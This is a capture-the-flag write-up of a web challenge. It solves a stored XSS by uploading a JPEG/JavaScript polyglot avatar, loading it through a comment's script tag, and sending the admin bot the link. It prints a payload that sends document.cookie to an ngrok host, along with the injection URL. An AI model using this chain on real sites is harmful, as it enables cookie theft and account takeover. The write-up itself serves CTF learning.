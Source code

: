 🚩 4th Challenge

### Question

![1.png](./assets/1.png)
> Link: http://54.82.54.16/

### Solution
- This is how the website looks like
- ![2.png](./assets/2.png)
- This challenge was another nice challenge but the cool thing was that we saw it before in another CTF (CyberWarriors-JordanCTF) that me and my team participated in and got the 19th place
- We couldn't solve it then but we knew how to solve it after the CTF ended from this [writeup](https://zoznoor23.medium.com/yogosha-christmas-ctf-kara-jutsus-access-write-up-4ff3f67984a3) by the talented **Hamza Nour**
- So what's better than nice & already solved challenge before to solve again? 😀
- So we know it's an **XSS** because there is a **bot link (admin report)** and **profile picture upload**!
- ![3.png](./assets/3.png)
- When searching for `XSS through jpg image` you will find this [article](https://medium.com/@Medusa0xf/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a) _(Hiding Javascript code inside JPG image using **Polyglot**)_
- There is this [amazing tool](https://github.com/js-on/jpeg_polyglot_xss) to create polyglot payloads, this way is better and easier than the ways explained in the references above (but they explain how it works tho which is nice to know) _[Unfortunately this tool didn't work for me tho, it might work for you? maybe - but later on I found out it's probably missing some characters from the original exploit explanation]_
- We need to create a payload to be inside a JPEG image to upload it as our avatar to the website
- ![5.png](./assets/5.png)
- Then there is a comment section which confirms in Home it's an XSS exploit
- ![8.png](./assets/8.png)
- When you submit that you see our XSS portal in the url and the comment being added to the home page
- ![9.png](./assets/9.png)
- Amazing! now to the cool part
- Instead of using the mentioned tool above which didn't work me, I read this [article from portswigger](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- They've already crafted the [injected image](http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg) for you, all you have to do is to upload it and use burp repeater to edit the payload as follows
    - Open burp & start intercepting
    - Choose the injected image above and submit uploading it to the website
    - In burp, send the request to repeater and stop intercepting
    - Request should look like this in repeater
    - ![13.png](./assets/13.png)
- Now change the burp's payload (selected above) to your payload (below)
- `*/=document.location='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/test?'+document.cookie/*`
- Send the request
- ![14.png](./assets/14.png)
- Once uploaded/sent you will get a warning and a `File is an image` message which means our injected image has been uplaoded successfully
- ![6.png](./assets/6.png)
- Now we need to get the file path of that avatar on the website using the HTML source code (Ctrl+U OR Right-Click > Inspect Element OR from burp response)
- ![7.png](./assets/7.png)
- Our image path was `./upload/1672270999151187401.jpg` which is `http://54.82.54.16//upload/1672270999151187401.jpg`and type that as a URL your injected image will be downloaded
- Now we need to add that image source to the home page using the comments section
- Note that we need to use `charset="ISO-8859-1"` in the img element due to this
- > On Firefox when using a UTF-8 character set for the document it corrupts the polyglot when included as an script! So to get the script to work we need to specify the ISO-8859–1 charset on the script tag and it executes fine.
- Here is out comment
```html
<script charset="ISO-8859-1" src="./upload/1672270999151187401.jpg"></script>
```
- ![10.png](./assets/10.png)
- This is the XSS link
```css
http://54.82.54.16//index.php?name=F30s&email=ayham&subject=IsHere&message=%3Cscript+charset%3D%22ISO-8859-1%22+src%3D%22.%2Fupload%2F1672270999151187401.jpg%22%3E%3C%2Fscript%3E&subcom=test
```
- Now we need to make the bot (in Admin Report) go to this XSS link
- ![11.png](./assets/11.png)
- VOILAAAA!!! You got the flag!
- ![12.png](./assets/12.png)
> Flag: `FLAG{K4ra_OnCe_Alw4y5_Kara????}`
